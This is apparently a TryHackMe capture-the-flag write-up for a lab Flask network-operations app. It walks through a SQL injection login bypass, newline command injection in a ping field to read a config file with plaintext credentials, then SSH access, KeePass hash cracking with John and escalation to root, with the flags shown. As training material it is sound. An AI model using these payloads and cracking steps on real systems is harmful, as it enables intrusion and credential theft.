# Silent Monitor — TryHackMe Writeup
**Target:** CorpNet's internal Network Operations Centre (NOC)

## Reconnaissance

```bash
nmap -sV -sC 10.114.173.67
```

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
|_http-title: CorpNet — Network Operations Centre
```

Two open ports: SSH, and an HTTP service on an unusual port (5050) fronted by **Werkzeug** — the WSGI toolkit that Flask apps run on. That's an immediate signal: this is a **Python/Flask** application, not the PHP stack from earlier rooms. Different framework means different vulnerability classes are worth checking first — Jinja2 template injection, Werkzeug's interactive debug console, and Flask's particular session-cookie handling are all now on the table.



The landing page is a clean marketing-style dashboard for "CorpNet NOC" — nothing hidden in the page source, just static HTML and CSS. But the capability cards are worth reading closely:



**"Uptime Monitoring — Continuous ICMP and TCP service checks across all managed network segments."** If this app actually performs live ICMP checks, there's almost certainly a page somewhere that takes a hostname/IP as input and runs something like `ping` against it server-side. That's the working hypothesis to chase.

### Finding the hidden portal

```bash
gobuster dir -u http://10.114.173.67:5050/ -w /usr/share/wordlists/dirb/common.txt -x html,php -t 40
```

```
/internal    (Status: 200) [Size: 8770]
```

A single hit — `/internal` — which turns out to be a full operator login page:



---

## Web Exploitation — Authentication Bypass

### Ruling out Werkzeug debug mode

Since this is Flask, the first thing worth checking is whether the developer left `debug=True` enabled. A very common way Flask apps crash unexpectedly is direct dictionary access on form data — `request.form['password']` instead of the safer `request.form.get('password')`. A request missing the `password` field entirely would throw an unhandled `KeyError`, and with debug mode on, that exception renders as an interactive traceback in the browser — a well-known path to full RCE.

Testing this (missing fields, malformed bodies) consistently returned a clean, generic "Invalid username or password" response. The developer handled input properly here — dead end, but useful to have ruled out cleanly rather than assumed.

### SQL Injection

Next: the login form itself. Submitting a classic authentication-bypass payload in the username field:

```
' OR 1=1 --
```

This works because of how the backend almost certainly builds its query — string concatenation rather than parameterization:

```sql
WHERE username='' OR 1=1 --' AND password='x'
```

The `--` is a SQL comment marker — everything after it on that line is ignored, which erases the password check entirely. `1=1` is unconditionally true, so the query returns a row regardless of what username/password were actually submitted — logging us in as whichever operator account the database happens to return first.



This logged us straight in as **`netops`**, role **OPERATOR** — no valid credentials ever needed.

---

## The Dashboard — Reading the Room



The dashboard's **Service Status** panel is a goldmine on its own:

```
SNMP Collector    127.0.0.1:161
Backup Agent      127.0.0.1:8812   (warning status)
Syslog Collector  0.0.0.0:514      (down)
```

Services bound to `127.0.0.1` are only reachable from the box itself — exactly the kind of thing the room's flavor text ("hiding things in places no one thinks to look") was pointing at. Worth remembering once we have a shell on the machine.

### The audit log hands us the exploit

Scrolling the **Audit Log** panel turns up something far more directly useful:



```
HEALTH_CHECK   127.0.0.1%0awhoami
HEALTH_CHECK   127.0.0.10%awhoami
```

`%0a` is the URL-encoded form of a newline character. Someone — in the story, presumably the "disgruntled contractor" — had already tried feeding a newline followed by `whoami` into the Host Health probe field. This is essentially the room handing us the technique directly through in-world evidence, the same way Domino's config comments and Support Operations Panel's ticket-review bot did.

**Why would a newline matter?** In a shell, a literal newline can act as a command separator — the same principle as the `;` bypass from the Support Operations Panel room, just a different separator character. If the backend does something like `os.system(f"ping -c 2 {target}")` without sanitizing newlines, submitting two lines — a valid IP, then a second, unrelated command — could get both executed.

Further down the log, the earlier SQLi attempts are visible too, recorded exactly as sent:




---

## Command Injection — Confirming and Weaponizing It

Rather than fighting shell-escaping through a browser text field or curl's quoting rules, the payloads for this stage were built and sent through **Burp Suite's Repeater** — much easier to iterate on raw newline-separated payloads without bash re-interpreting them.

### Confirming the injection

Sending `target=127.0.0.1%0awhoami` through the intercepted request:



The response's `output-pre` block shows the normal `ping` output, followed by an extra line that doesn't belong to `ping` at all:

```
--- 127.0.0.1 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.021/0.040/0.059/0.019 ms
www-data
```

`whoami` executed as a second, independent command. Confirmed command injection, running as the **`www-data`** service account.

### Enumerating the web root

```
target=127.0.0.1%0als -la
```



```
-rw-r-----  1 www-data www-data 20480 May 19 19:14 app.py
-rw-r-----  1 www-data www-data  7283 May 19 19:14 netops.db
-rw-r-----  1 www-data www-data   446 May 19 03:10 secret.config
```

`secret.config` — an immediate priority target.

### Reading the config file

```
target=127.0.0.1%0acat secret.config
```



```ini
log_path = /var/log/netops/app.log

[auth]
session_lifetime = 1800

# service account used by the backup agent
# TODO: migrate to secrets manager before Q2 audit
[backup_agent]
run_as = sysadmin
password = S3cur3Backup$Acc3ss!

[smtp]
host = 127.0.0.1
port = 25
from = noc-alerts@corp.internal
```

This single file hands over exactly what's needed to pivot:

- `netops.db` lives at `/opt/netops/netops.db` — worth remembering for later
- A real, usable credential pair: **`sysadmin` / `S3cur3Backup$Acc3ss!`**
- The comment ("service account used by the backup agent," "TODO: migrate to secrets manager") is a strong signal there's a genuine backup mechanism running on this box, tied to the `sysadmin` account — worth following up on once inside.

---

## SSH Access and Flag 1

```bash
ssh sysadmin@10.112.136.60
# password: S3cur3Backup$Acc3ss!
```



```
sysadmin@tryhackme-2204:~$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
sysadmin@tryhackme-2204:~$ cat user.txt
```

**Flag 1:**
```
THM{sQli_4nd_cMd_1nj3ct10n_l3D_y0u_h3re!}
```

---

## Privilege Escalation — Cracking the Backup Vault

The `secret.config` comment about a "backup agent" running as `sysadmin` was worth chasing. A directory listing confirms it:



```
drwx------  2 sysadmin sysadmin 4096 May 19 03:36 backups
```

Permission `drwx------` — only `sysadmin` can access it, meaning whatever's inside was placed deliberately for this account, not general system noise.

### Reading the README



```
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database

Contact the sysadmin team lead if you require access.
```

No password handed over directly — just confirmation this is a genuine KeePass vault, populated by an automated export process. Time to crack it offline.

### Pulling the vault and preparing the hash

```bash
scp sysadmin@10.112.136.60:~/backups/infrastructure.kdbx .
keepass2john infrastructure.kdbx > kdbx.hash
```



### Cracking with John and rockyou.txt

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kdbx.hash
```

```
spring           (infrastructure)
1g 0:00:00:00 DONE (2026-09-11 05:42) 1.020g/s 2577p/s 2577c/s 2577C/s spring..malcolm
```

Cracked instantly — the master password was `spring`, sitting near the top of rockyou.txt.

### Opening the vault

```bash
keepassxc infrastructure.kdbx
```



A single entry: **Root User**, username `root`, with a "Sensitive" note attached — "root user password, remember to change later." Revealing the password field:



```
Username: root
Password: S3cur3P4ss0nK33p4ss
```

---

## Root and Flag 2

```bash
su root
# password: S3cur3P4ss0nK33p4ss
```

**Flag 2 (root):**
```
THM{KDBx_V4ul7_H4s_b33n_cr4ck3d_0peN}
```

---

## Vulnerability Chain

| # | Vulnerability | Impact |
|---|---|---|
| V1 | SQL injection in the login form (string-concatenated query) | Authentication bypass — logged in as `netops` (operator role) without any valid credentials |
| V2 | OS command injection via the "Host Health" probe's `target` parameter | RCE as `www-data`, confirmed via an in-app audit-log hint left by a prior (in-story) exploitation attempt |
| V3 | Web-root-readable config file (`secret.config`) containing plaintext service-account credentials | Real SSH credentials for the `sysadmin` account |
| V4 | Backup export directory (`~/backups/`) containing an offline-crackable KeePass vault | Vault master password (`spring`) cracked via rockyou.txt in under a second |
| V5 | Root credential stored in plaintext inside the cracked vault | Full root access |

---
